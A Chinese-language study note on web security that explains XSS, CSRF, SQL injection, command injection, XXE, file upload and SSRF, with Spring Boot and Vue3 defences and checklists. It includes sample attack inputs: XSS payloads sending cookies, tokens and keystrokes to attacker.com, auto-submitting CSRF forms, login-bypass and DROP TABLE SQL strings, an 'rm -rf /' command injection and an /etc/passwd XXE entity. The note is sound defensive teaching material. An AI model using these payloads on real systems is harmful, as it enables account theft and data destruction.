



# Web 安全 - XSS / CSRF / SQL 注入

> **文档说明**：系统讲解 Web 应用三大最常见安全漏洞：XSS（跨站脚本攻击）、CSRF（跨站请求伪造）、SQL 注入，包括每种攻击的原理、分类、攻击示例、防御方案，以及 Spring Boot / Vue3 中的具体实现，延伸覆盖命令注入、XXE、文件上传、SSRF 等常见 Web 安全漏洞。
>
> **适用人群**：全栈开发工程师、后端开发工程师、前端开发工程师、需要了解 Web 安全的开发者
>
> **前置知识**：[[计算机网络分层模型速查]]、[[JWT与OAuth2认证授权]]、[[SpringBoot-自动装配原理]]

---

## 一、概述

**OWASP Top 10** 是开放 Web 应用安全项目（OWASP）发布的十大 Web 应用安全风险，是 Web 安全领域最权威的参考。XSS、CSRF、SQL 注入长期位列其中。

### 1. OWASP Top 10（2021）

| 排名 | 风险 | 说明 |
|------|------|------|
| 1 | 访问控制失效（Broken Access Control） | 未正确限制用户权限 |
| 2 | 加密机制失效（Cryptographic Failures） | 敏感数据未加密或加密不当 |
| 3 | 注入（Injection） | SQL 注入、XSS、命令注入等 |
| 4 | 不安全设计（Insecure Design） | 设计层面缺乏安全考虑 |
| 5 | 安全配置错误（Security Misconfiguration） | 默认配置、错误信息泄露等 |
| 6 | 易受攻击和过时的组件 | 使用有已知漏洞的第三方库 |
| 7 | 身份认证和会话管理失败 | 弱密码、会话固定、Token 泄露 |
| 8 | 软件和数据完整性失败 | 不安全的 CI/CD、未验证的更新 |
| 9 | 安全日志和监控失败 | 未记录安全事件或未及时响应 |
| 10 | 服务端请求伪造（SSRF） | 服务器被诱导发起请求 |

### 2. 三大漏洞对比

| 维度 | XSS | CSRF | SQL 注入 |
|------|-----|------|---------|
| **全称** | 跨站脚本攻击 | 跨站请求伪造 | SQL 注入攻击 |
| **攻击目标** | 客户端（浏览器） | 服务器（利用用户身份） | 数据库 |
| **攻击原理** | 注入恶意脚本到网页 | 诱导用户发起未授权请求 | 注入恶意 SQL 到查询 |
| **必要条件** | 网站存在输入点且未转义 | 用户已登录目标网站 | 网站使用字符串拼接 SQL |
| **攻击者能力** | 窃取 Cookie/Token、钓鱼、篡改页面 | 以用户身份执行操作（转账、改密码） | 读取/修改/删除数据库数据 |
| **防御核心** | 输入转义 + CSP + HttpOnly | CSRF Token + SameSite + 验证 Referer | 参数化查询（预编译）+ ORM |
| **严重程度** | 高 | 中高 | 极高 |

---

## 二、XSS（跨站脚本攻击）

### 1. XSS 原理

**XSS（Cross-Site Scripting）** 是攻击者在网页中注入恶意脚本，当其他用户浏览该网页时，恶意脚本在用户浏览器中执行，从而窃取用户信息、篡改页面、发起钓鱼攻击等。

**攻击流程**：


### 2. XSS 分类

| 类型 | 说明 | 攻击向量 | 示例 |
|------|------|---------|------|
| **存储型 XSS** | 恶意脚本存储在服务器（数据库），每次访问都执行 | 评论、留言、个人资料 | 攻击者在评论中写 `<script>...</script>` |
| **反射型 XSS** | 恶意脚本通过 URL 参数传递，服务器反射回页面 | URL 参数、搜索结果 | `http://example.com/search?q=<script>...</script>` |
| **DOM 型 XSS** | 恶意脚本在客户端 DOM 操作中执行，不经过服务器 | URL hash、前端路由 | 前端 JS 读取 `location.hash` 并插入 DOM |

#### 存储型 XSS 示例

```html
<!-- 攻击者提交的评论内容 -->
<script>
  // 窃取 Cookie 发送给攻击者
  new Image().src = 'https://attacker.com/steal?cookie=' + document.cookie;
</script>

<!-- 网站未转义，直接输出到页面 -->
<div class="comment">
  <script>
    new Image().src = 'https://attacker.com/steal?cookie=' + document.cookie;
  </script>
</div>
```

#### 反射型 XSS 示例

```text
URL: http://example.com/search?q=<script>alert(document.cookie)</script>

<!-- 服务器直接将 q 参数输出到页面 -->
<p>搜索结果: <script>alert(document.cookie)</script></p>
```

#### DOM 型 XSS 示例

```javascript
// 前端代码（不安全）
const hash = location.hash.slice(1);  // 读取 URL hash
document.getElementById('output').innerHTML = hash;  // 直接插入 DOM

// 攻击者构造 URL
// http://example.com/#
```

### 3. XSS 攻击载荷（Payload）

```html
<!-- 基础脚本 -->
<script>alert('XSS')</script>

<!-- 不使用 script 标签 -->

<svg onload=alert('XSS')>
<body onload=alert('XSS')>
<iframe src="javascript:alert('XSS')"></iframe>

<!-- 窃取 Cookie -->
<script>
  document.location='https://attacker.com/steal?c='+document.cookie;
</script>

<!-- 窃取 Token（LocalStorage） -->
<script>
  new Image().src='https://attacker.com/steal?token='+localStorage.getItem('token');
</script>

<!-- 钓鱼：伪造登录框 -->
<script>
  document.body.innerHTML = '<div style="...">登录已过期，请重新输入密码<input type=password><button onclick="...">登录</button></div>';
</script>

<!-- 键盘记录器 -->
<script>
  document.onkeypress = function(e) {
    new Image().src = 'https://attacker.com/keylog?key=' + e.key;
  };
</script>

<!-- 编码绕过 -->
<scr<script>ipt>alert('XSS')</scr<script>ipt>

```

### 4. XSS 防御

#### 防御1：输入转义（输出编码）

对所有用户输入在输出到 HTML 时进行转义：

| 字符 | 转义为 | 说明 |
|------|--------|------|
| `<` | `&lt;` | 防止标签开始 |
| `>` | `&gt;` | 防止标签结束 |
| `"` | `&quot;` | 防止属性值闭合 |
| `'` | `&#x27;` | 防止属性值闭合 |
| `&` | `&amp;` | 防止实体解析 |
| `/` | `&#x2F;` | 防止闭合标签 |

**Java 后端转义**：
```java
// 使用 Apache Commons Text
import org.apache.commons.text.StringEscapeUtils;

String safeHtml = StringEscapeUtils.escapeHtml4(userInput);

// 或使用 Spring 的 HtmlUtils
String safeHtml = HtmlUtils.htmlEscape(userInput);
```

**Vue3 自动转义**：
```vue
<template>
  <!-- Vue 模板语法自动转义，安全 -->
  <div>{{ userInput }}</div>

  <!-- v-html 不转义，危险！仅用于可信内容 -->
  <div v-html="trustedContent"></div>
</template>
```

**React 自动转义**：
```jsx
// JSX 自动转义，安全
<div>{userInput}</div>

// dangerouslySetInnerHTML 不转义，危险
<div dangerouslySetInnerHTML={{ __html: trustedContent }} />
```

#### 防御2：Content Security Policy（CSP）

CSP 是浏览器层面的安全策略，限制页面可以加载和执行的资源来源：

```http
# HTTP 响应头
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123'; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:; connect-src 'self' https://api.example.com; frame-src 'none'; object-src 'none'; base-uri 'self'; form-action 'self'
```

| 指令 | 说明 |
|------|------|
| `default-src` | 默认资源加载策略 |
| `script-src` | 脚本来源（`'self'` 只允许同源，`'nonce-xxx'` 只允许带 nonce 的脚本） |
| `style-src` | 样式来源 |
| `img-src` | 图片来源 |
| `connect-src` | AJAX/WebSocket 连接来源 |
| `frame-src` | iframe 来源 |
| `object-src` | Flash/Java Applet 来源（建议 'none'） |
| `base-uri` | base 标签来源 |
| `form-action` | 表单提交目标 |

**CSP 关键值**：
- `'self'`：只允许同源
- `'none'`：不允许任何来源
- `'unsafe-inline'`：允许内联脚本/样式（不推荐）
- `'unsafe-eval'`：允许 eval（不推荐）
- `'nonce-xxx'`：只允许带指定 nonce 的内联脚本
- `'sha256-xxx'`：只允许指定哈希的脚本

**Spring Boot 配置 CSP**：
```java
@Configuration
public class SecurityConfig {
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http.headers(headers -> headers
            .contentSecurityPolicy(csp -> csp
                .policyDirectives("default-src 'self'; script-src 'self'; object-src 'none'; frame-ancestors 'none'")
            )
        );
        return http.build();
    }
}
```

#### 防御3：HttpOnly Cookie

将敏感 Cookie 标记为 HttpOnly，JavaScript 无法读取，防止 XSS 窃取：

```http
Set-Cookie: sessionid=abc123; HttpOnly; Secure; SameSite=Strict; Path=/; Max-Age=3600
```

| 属性 | 说明 |
|------|------|
| `HttpOnly` | JavaScript 无法读取（`document.cookie` 不可见） |
| `Secure` | 只在 HTTPS 下传输 |
| `SameSite` | 跨站请求不携带 Cookie（防 CSRF） |
| `Path` | Cookie 生效路径 |
| `Max-Age` | 有效期 |

#### 防御4：输入验证和过滤

对用户输入进行白名单验证，只允许预期的字符：

```java
// 用户名只允许字母数字下划线
if (!username.matches("^[a-zA-Z0-9_]{3,20}$")) {
    throw new IllegalArgumentException("用户名格式不正确");
}

// 使用 OWASP Java HTML Sanitizer 过滤 HTML
import org.owasp.html.PolicyFactory;
import org.owasp.html.Sanitizers;

PolicyFactory policy = Sanitizers.FORMATTING.and(Sanitizers.LINKS);
String safeHtml = policy.sanitize(userInput);
```

#### 防御5：避免危险的 DOM 操作

```javascript
// ❌ 危险：直接插入 HTML
element.innerHTML = userInput;
element.outerHTML = userInput;
document.write(userInput);

// ❌ 危险：直接执行
eval(userInput);
setTimeout(userInput, 100);
new Function(userInput)();

// ✅ 安全：设置文本内容
element.textContent = userInput;

// ✅ 安全：设置属性
element.setAttribute('data-value', userInput);

// ✅ 安全：创建元素
const div = document.createElement('div');
div.textContent = userInput;
element.appendChild(div);
```

### 5. XSS 防御检查清单

- [ ] 所有用户输入输出到 HTML 时进行转义
- [ ] 不使用 `v-html` / `dangerouslySetInnerHTML` / `innerHTML` 插入不可信内容
- [ ] 配置 Content Security Policy（CSP）
- [ ] 敏感 Cookie 设置 HttpOnly + Secure + SameSite
- [ ] 不使用 `eval()` / `new Function()` / `setTimeout(string)`
- [ ] URL 参数输出到页面时进行转义
- [ ] 富文本内容使用白名单 HTML 过滤器（OWASP Sanitizer）
- [ ] 前端路由参数不直接插入 DOM
- [ ] 定期使用 XSS 扫描工具（OWASP ZAP、Burp Suite）检测

---

## 三、CSRF（跨站请求伪造）

### 1. CSRF 原理

**CSRF（Cross-Site Request Forgery）** 是攻击者诱导已登录目标网站的用户，在不知情的情况下向目标网站发起恶意请求，利用用户的身份执行未授权操作。

**攻击流程**：


### 2. CSRF 攻击示例

#### 自动提交表单

```html
<!-- 攻击者网站上的隐藏表单 -->
<form action="https://bank.example.com/transfer" method="POST" id="malicious-form">
  <input type="hidden" name="to" value="attacker-account">
  <input type="hidden" name="amount" value="10000">
</form>

<script>
  // 页面加载后自动提交
  document.getElementById('malicious-form').submit();
</script>
```

#### GET 请求 CSRF

```html
<!-- 攻击者网站上的图片标签 -->


<!-- 或 iframe -->
<iframe src="https://bank.example.com/transfer?to=attacker&amount=10000" style="display:none"></iframe>
```

#### JSON 请求 CSRF

```html
<!-- 使用 fetch 发送 JSON 请求（需目标网站未验证 Content-Type） -->
<script>
fetch('https://bank.example.com/api/transfer', {
  method: 'POST',
  credentials: 'include',  // 携带 Cookie
  headers: { 'Content-Type': 'text/plain' },  // 绕过 CORS 预检
  body: JSON.stringify({ to: 'attacker', amount: 10000 })
});
</script>
```

### 3. CSRF 防御

#### 防御1：CSRF Token（最常用）

在表单中嵌入随机 Token，服务器验证 Token 是否匹配：

```java
// Spring Security 自动 CSRF 保护
@Configuration
public class SecurityConfig {
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http.csrf(csrf -> csrf
            .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse())
        );
        return http.build();
    }
}
```

```html
<!-- 表单中自动包含 CSRF Token（Thymeleaf） -->
<form action="/transfer" method="POST">
  <input type="hidden" name="_csrf" value="${_csrf.token}">
  <input type="text" name="to">
  <input type="text" name="amount">
  <button type="submit">转账</button>
</form>
```

```javascript
// 前端 AJAX 请求携带 CSRF Token（从 Cookie 读取）
const csrfToken = document.cookie.match(/XSRF-TOKEN=([^;]+)/)?.[1];

fetch('/api/transfer', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'X-XSRF-TOKEN': csrfToken  // 或 'X-CSRF-TOKEN'
  },
  body: JSON.stringify({ to: 'attacker', amount: 10000 })
});
```

**CSRF Token 原理**：
1. 服务器生成随机 Token，存储在 Session 中，同时通过 Cookie 或表单返回给客户端
2. 客户端提交请求时，在表单字段或请求头中携带 Token
3. 服务器比较请求中的 Token 与 Session 中的 Token
4. 匹配 → 允许；不匹配 → 拒绝
5. 攻击者网站无法读取目标网站的 Cookie（同源策略），因此无法获取 Token

#### 防御2：SameSite Cookie

```http
Set-Cookie: sessionid=abc123; SameSite=Strict; Secure; HttpOnly
```

| SameSite 值 | 说明 |
|-------------|------|
| `Strict` | 任何跨站请求都不携带 Cookie（最严格） |
| `Lax` | 跨站 GET 请求（顶级导航）携带 Cookie，POST/AJAX 不携带（默认推荐） |
| `None` | 跨站请求也携带 Cookie（必须配合 Secure） |

**SameSite=Lax 的行为**：

| 请求类型 | 示例 | 是否携带 Cookie |
|---------|------|----------------|
| 链接跳转（GET） | `<a href="...">` | ✅ 携带 |
| 表单 GET 提交 | `<form method="GET">` | ✅ 携带 |
| 表单 POST 提交 | `<form method="POST">` | ❌ 不携带 |
| AJAX/Fetch | `fetch(...)` | ❌ 不携带 |
| 图片/iframe | `` | ❌ 不携带 |

#### 防御3：验证 Referer / Origin

```java
// 验证请求来源
String referer = request.getHeader("Referer");
String origin = request.getHeader("Origin");

if (referer != null && !referer.startsWith("https://example.com")) {
    response.sendError(403, "CSRF 检测：非法来源");
    return;
}
```

**注意**：Referer 可能被浏览器隐藏或伪造，不能作为唯一防御手段，应配合 CSRF Token。

#### 防御4：自定义请求头

要求敏感请求携带自定义请求头（如 `X-Requested-With: XMLHttpRequest`），跨站请求无法设置自定义头（受 CORS 限制）：

```java
// 验证自定义头
if (!"XMLHttpRequest".equals(request.getHeader("X-Requested-With"))) {
    response.sendError(403, "非法请求");
    return;
}
```

#### 防御5：敏感操作二次验证

对高风险操作（转账、改密码、删除账户）要求二次验证：
- 重新输入密码
- 短信/邮箱验证码
- 人脸识别/指纹

### 4. CSRF 防御检查清单

- [ ] 所有状态变更请求（POST/PUT/DELETE）使用 CSRF Token
- [ ] Cookie 设置 SameSite=Lax 或 Strict
- [ ] 敏感操作要求二次验证
- [ ] 不使用 GET 请求执行状态变更操作
- [ ] 验证 Referer/Origin 作为辅助防御
- [ ] JSON API 验证 Content-Type 为 application/json
- [ ] 敏感 Cookie 设置 Secure + HttpOnly

---

## 四、SQL 注入

### 1. SQL 注入原理

**SQL 注入**是攻击者在输入中插入恶意 SQL 代码，服务器未经验证直接将输入拼接到 SQL 语句中，导致恶意 SQL 被执行，从而读取、修改、删除数据库数据，甚至控制数据库服务器。

**攻击流程**：


### 2. SQL 注入示例

#### 示例1：登录绕过

```java
// ❌ 不安全：字符串拼接 SQL
String sql = "SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'";
Statement stmt = connection.createStatement();
ResultSet rs = stmt.executeQuery(sql);
```

攻击者输入：
- 用户名：`admin' --`
- 密码：`任意值`

拼接后的 SQL：
```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = '任意值'
-- -- 是 SQL 注释，后面的密码验证被注释掉了
-- 结果：以 admin 身份登录成功，无需密码
```

#### 示例2：UNION 查询注入

```text
输入：' UNION SELECT username, password FROM users --
```

拼接后的 SQL：
```sql
SELECT id, name FROM products WHERE category = '' UNION SELECT username, password FROM users --'
-- 结果：返回所有用户的用户名和密码
```

#### 示例3：数据删除

```text
输入：'; DROP TABLE users; --
```

拼接后的 SQL：
```sql
SELECT * FROM users WHERE id = ''; DROP TABLE users; --'
-- 结果：删除 users 表（需数据库支持多语句执行）
```

#### 示例4：盲注（Boolean-based）

```text
输入：' AND 1=1 --    → 返回正常结果（条件为真）
输入：' AND 1=2 --    → 返回空结果（条件为假）
-- 通过页面是否返回正常，逐字符推断数据库内容
```

#### 示例5：时间盲注（Time-based）

```text
输入：' AND SLEEP(5) --
-- 如果页面延迟 5 秒返回，说明注入成功
-- 可用于无页面回显的场景
```

### 3. SQL 注入防御

#### 防御1：参数化查询（预编译）—— 最有效

```java
// ✅ 安全：使用 PreparedStatement 参数化查询
String sql = "SELECT * FROM users WHERE username = ? AND password = ?";
PreparedStatement pstmt = connection.prepareStatement(sql);
pstmt.setString(1, username);  // 参数1
pstmt.setString(2, password);  // 参数2
ResultSet rs = pstmt.executeQuery();
```

**原理**：
1. SQL 语句和参数分开传递给数据库
2. 数据库先编译 SQL 语句结构（确定查询逻辑）
3. 参数作为纯数据传入，不会被解析为 SQL 代码
4. 即使参数包含 `' OR 1=1 --`，也只是作为字符串值匹配，不会改变 SQL 逻辑

#### 防御2：使用 ORM 框架

```java
// ✅ Spring Data JPA（自动参数化）
@Repository
public interface UserRepository extends JpaRepository<User, Long> {
    User findByUsernameAndPassword(String username, String password);
}

// ✅ MyBatis（使用 #{} 参数化）
@Select("SELECT * FROM users WHERE username = #{username} AND password = #{password}")
User findByUsername(@Param("username") String username, @Param("password") String password);

// ❌ MyBatis 危险：${} 直接拼接
@Select("SELECT * FROM users WHERE username = '${username}'")  // 危险！
User findByUsernameUnsafe(String username);
```

| MyBatis 语法 | 说明 | 安全性 |
|--------------|------|--------|
| `#{username}` | 参数化查询，预编译 | ✅ 安全 |
| `${username}` | 字符串直接拼接 | ❌ 危险（仅用于动态表名/列名，需白名单验证） |

#### 防御3：输入验证和过滤

```java
// 白名单验证：用户ID必须是数字
if (!userId.matches("^\\d+$")) {
    throw new IllegalArgumentException("用户ID格式不正确");
}

// 动态表名/列名使用白名单
List<String> allowedTables = Arrays.asList("users", "orders", "products");
if (!allowedTables.contains(tableName)) {
    throw new IllegalArgumentException("非法表名");
}
```

#### 防御4：最小权限原则

```sql
-- 应用使用的数据库用户只授予必要权限
CREATE USER 'app_user'@'%' IDENTIFIED BY 'strong_password';
GRANT SELECT, INSERT, UPDATE ON mydb.* TO 'app_user'@'%';
-- 不授予 DROP, ALTER, DELETE 等危险权限
-- 不授予 FILE, PROCESS, SUPER 等管理权限
FLUSH PRIVILEGES;
```

#### 防御5：错误信息不泄露

```java
// ❌ 不安全：直接返回数据库错误信息
try {
    // 数据库操作
} catch (SQLException e) {
    return e.getMessage();  // 泄露表名、列名、SQL 语法
}

// ✅ 安全：返回通用错误信息，记录详细日志
try {
    // 数据库操作
} catch (SQLException e) {
    log.error("数据库操作失败", e);  // 详细日志记录
    return "操作失败，请稍后重试";     // 通用错误信息
}
```

#### 防御6：WAF（Web 应用防火墙）

部署 WAF（如 ModSecurity、Cloudflare、阿里云 WAF）作为额外防御层，检测和拦截 SQL 注入攻击。

### 4. SQL 注入防御检查清单

- [ ] 所有 SQL 查询使用参数化查询（PreparedStatement）
- [ ] 使用 ORM 框架（JPA/MyBatis），避免手写 SQL 拼接
- [ ] MyBatis 使用 `#{}` 而非 `${}`（动态表名需白名单验证）
- [ ] 数据库用户使用最小权限原则
- [ ] 不向用户返回数据库错误详情
- [ ] 输入验证（白名单）
- [ ] 部署 WAF 作为额外防御
- [ ] 定期使用 SQL 注入扫描工具（SQLMap、OWASP ZAP）检测
- [ ] 数据库敏感数据加密存储

---

## 五、其他常见 Web 安全漏洞

### 1. 命令注入

攻击者注入操作系统命令：

```java
// ❌ 不安全：直接拼接命令
String command = "ping " + ip;
Runtime.getRuntime().exec(command);

// 攻击者输入：127.0.0.1; rm -rf /
// 执行：ping 127.0.0.1; rm -rf /
```

**防御**：
```java
// ✅ 使用参数数组，不拼接
ProcessBuilder pb = new ProcessBuilder("ping", ip);
pb.start();

// ✅ 输入验证（IP 格式校验）
if (!ip.matches("^\\d{1,3}\\.\\d{1,3}\\.\\d{1,3}\\.\\d{1,3}$")) {
    throw new IllegalArgumentException("IP 格式不正确");
}
```

### 2. XXE（XML 外部实体注入）

攻击者通过 XML 外部实体读取服务器文件：

```xml
<!-- 攻击者提交的 XML -->
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

**防御**：
```java
// ✅ 禁用外部实体
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);

// 或使用 JSON 替代 XML
```

### 3. 文件上传漏洞

攻击者上传恶意文件（WebShell）：

```java
// ❌ 不安全：不验证文件类型和内容
file.transferTo(new File(uploadDir + file.getOriginalFilename()));
```

**防御**：
- [ ] 验证文件扩展名（白名单）
- [ ] 验证文件 MIME 类型
- [ ] 验证文件内容（文件头魔数）
- [ ] 重命名文件（随机文件名，不使用原始文件名）
- [ ] 上传目录禁止执行权限
- [ ] 上传文件存储在非 Web 可访问目录
- [ ] 文件大小限制

```java
// ✅ 安全的文件上传
private static final Set<String> ALLOWED_TYPES = Set.of("image/jpeg", "image/png", "image/gif");
private static final long MAX_SIZE = 5 * 1024 * 1024; // 5MB

public String uploadFile(MultipartFile file) {
    // 验证大小
    if (file.getSize() > MAX_SIZE) throw new IllegalArgumentException("文件过大");
    // 验证类型
    if (!ALLOWED_TYPES.contains(file.getContentType())) throw new IllegalArgumentException("不支持的文件类型");
    // 验证文件头（魔数）
    byte[] header = new byte[8];
    file.getInputStream().read(header);
    if (!isValidImageHeader(header)) throw new IllegalArgumentException("文件内容无效");
    // 重命名文件
    String newFilename = UUID.randomUUID() + getExtension(file.getContentType());
    file.transferTo(new File(uploadDir, newFilename));
    return newFilename;
}
```

### 4. SSRF（服务端请求伪造）

攻击者诱导服务器发起请求，访问内部资源：

```java
// ❌ 不安全：用户可控制请求 URL
String url = request.getParameter("url");
URL obj = new URL(url);
HttpURLConnection con = (HttpURLConnection) obj.openConnection();
```

攻击者输入：`http://169.254.169.254/latest/meta-data/`（云服务器元数据）

**防御**：
- [ ] URL 白名单（只允许指定域名）
- [ ] 禁止访问内网 IP（10.x, 172.16-31.x, 192.168.x, 127.x, 169.254.x）
- [ ] 禁用非 HTTP 协议（file://, gopher://, dict://）
- [ ] DNS 重绑定防护
- [ ] 使用专用的 SSRF 防护库

### 5. 越权访问（Broken Access Control）

| 类型 | 说明 | 防御 |
|------|------|------|
| **水平越权** | 用户A访问用户B的数据 | 验证数据归属（`WHERE user_id = 当前用户`） |
| **垂直越权** | 普通用户访问管理员功能 | RBAC 权限验证，每个接口验证角色 |
| **未授权访问** | 未登录用户访问需登录接口 | 统一认证拦截器/过滤器 |

```java
// ✅ 防止水平越权：验证数据归属
@GetMapping("/orders/{id}")
public Order getOrder(@PathVariable Long id, @AuthenticationPrincipal User user) {
    Order order = orderRepository.findById(id);
    if (!order.getUserId().equals(user.getId())) {
        throw new AccessDeniedException("无权访问该订单");
    }
    return order;
}
```

---

## 六、安全开发检查清单

### 1. 输入验证
- [ ] 所有外部输入进行验证（白名单优先）
- [ ] 输入长度限制
- [ ] 输入格式验证（邮箱、手机号、URL 等）
- [ ] 文件上传验证（类型、大小、内容）

### 2. 输出编码
- [ ] HTML 输出转义
- [ ] JavaScript 输出转义
- [ ] CSS 输出转义
- [ ] URL 参数编码

### 3. 数据库安全
- [ ] 使用参数化查询
- [ ] ORM 框架正确使用
- [ ] 最小权限数据库用户
- [ ] 敏感数据加密
- [ ] 错误信息不泄露

### 4. 认证授权
- [ ] 强密码策略
- [ ] 密码使用 bcrypt/argon2 哈希
- [ ] Session/Token 安全配置（HttpOnly/Secure/SameSite）
- [ ] CSRF Token
- [ ] RBAC 权限验证
- [ ] 防止水平/垂直越权

### 5. 传输安全
- [ ] 全站 HTTPS
- [ ] HSTS 头
- [ ] 安全的 TLS 配置
- [ ] 敏感数据传输加密

### 6. 安全头
- [ ] Content-Security-Policy
- [ ] X-Frame-Options（防点击劫持）
- [ ] X-Content-Type-Options: nosniff
- [ ] Referrer-Policy
- [ ] Permissions-Policy

### 7. 日志监控
- [ ] 安全事件日志（登录失败、权限异常、输入异常）
- [ ] 日志不记录敏感信息（密码、Token、信用卡号）
- [ ] 异常监控和告警
- [ ] 定期安全审计

---

## 七、关联笔记

### 安全
- [[JWT与OAuth2认证授权]] · [[高可用架构设计]]

### 后端
- [[SpringBoot-自动装配原理]] · [[Gateway-网关路由与鉴权]] · [[MyBatis-核心原理与插件]]
- [[关系型数据库索引原理]] · [[事务隔离级别与MVCC]]

### 前端
- [[Vue3-组合式API设计模式]] · [[Pinia-状态管理核心]] · [[SSE-流式响应对接LLM]]

### 分布式
- [[微服务架构核心概念]] · [[配置中心实战]] · [[分布式锁原理与实现]]

### 导航
- [[MOC-后端开发]] · [[全栈+AI工程双轨融合学习路线图]]

> **学习路径建议**：先掌握 [[计算机网络分层模型速查]] 网络基础 → 学习本文 Web 安全三大漏洞 → 深入 [[JWT与OAuth2认证授权]] 认证授权 → 实践 [[Gateway-网关路由与鉴权]] 网关安全 → 研究 [[高可用架构设计]] 系统安全架构。

---

## 💡 全文深度讲解

本文系统梳理了Web 安全 - XSS / CSRF / SQL 注入的核心知识体系，从概述入手，深入XSS（跨站脚本攻击）的底层机制，再通过CSRF（跨站请求伪造）掌握实战应用，最后涵盖安全开发检查清单与关联笔记。学习时建议先建立整体认知，再动手实践，最后结合常见问题深化理解。

## 📝 全文精简总结

- **概述**：掌握本模块的核心概念与关键要点
- **XSS（跨站脚本攻击）**：掌握本模块的核心概念与关键要点
